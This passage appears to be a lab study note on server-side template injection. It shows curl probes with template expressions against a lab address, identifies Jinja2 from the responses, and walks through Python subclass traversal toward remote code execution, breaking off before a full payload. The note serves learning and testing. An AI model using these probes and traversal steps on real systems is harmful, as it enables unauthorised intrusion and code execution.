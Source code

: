   * For given target, we can test payloads for SSTI - like previous examples, this seems vulnerable as well:

    ```shell
    curl -gs "http://94.237.49.166:52590/execute?cmd={{7*7}}"
    # 49 in response

    curl -gs "http://94.237.49.166:52590/execute?cmd={{7*'7'}}"
    # this returns 7777777
    ```
  
  * Following the previous PortSwigger SSTI decision tree, based on the response to the above two payloads, we can see that the target is using Jinja2

  * For reference, some Python methods that can be used for payload crafting with respect to Jinja2:

    * ```__class__``` - returns object (class) to which type belongs
    * ```__mro__``` - returns tuple containing base class inherited by object
    * ```__subclasses__``` - each new class retains reference to subclasses; returns list of references in class
    * ```__builtins``` - returns builtin methods included in function
    * ```__globals``` - reference to dictionary containing global versions for a function
    * ```__base__``` - returns base class inherited by object
    * ```__init__``` - class initialization method
  
  * Example of these methods being used:

    ```python
    import flask
    s = 'HTB'
    type(s) # class 'str'
    s.__class__ # class 'str'

    dir (s) # shows all methods and attributes from object

    s.__class__.__class__ # class 'type'
    # going up the tree of inherited objects

    s.__class__.__base__ # class 'object'

    s.__class__.__base__.__subclasses__() # complete list of references for 'object' class

    s.__class__.mro()[1].__subclasses__() # does the same as above
    ```
  
  * Useful classes that can facilitate RCE:

    ```python
    # x = s.__class__.mro()[1].__subclasses__()
    # for i in range(len(x)):print(i, x[i].__name__)
    # prints all subclasses
